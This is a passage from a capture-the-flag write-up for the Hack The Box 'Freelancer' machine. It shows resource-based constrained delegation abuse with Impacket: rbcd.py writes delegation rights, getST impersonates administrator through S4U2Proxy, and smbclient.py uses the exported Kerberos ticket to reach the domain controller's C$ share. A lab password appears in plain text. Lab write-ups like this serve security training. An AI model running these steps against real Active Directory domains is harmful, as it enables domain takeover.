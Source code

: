 ```c
┌──(kali㉿kali)-[~]
└─$ while [ 1 ]; do sudo ntpdate 10.129.7.9;done
```

Then we performed the delegation to the `Domain Controller`, grabbed a `Kerberos ticket`, exported it and used it with `smbclient.py` to grab the `root.txt`.

```c
┌──(kali㉿kali)-[~]
└─$ rbcd.py -delegate-from 'foobar$' -delegate-to 'DC$' -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199' 
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] foobar$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     foobar$      (S-1-5-21-3542429192-2036945976-3483670807-11601)
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/files]
└─$ impacket-getST -spn 'cifs/dc.freelancer.htb' -impersonate 'administrator' 'freelancer.htb/foobar$:foobar'
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/files]
└─$ export KRB5CCNAME=administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/files]
└─$ smbclient.py administrator@dc.freelancer.htb -k -no-pass
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

Type help for list of commands
#
```

```c
# use C$
```

## root.txt
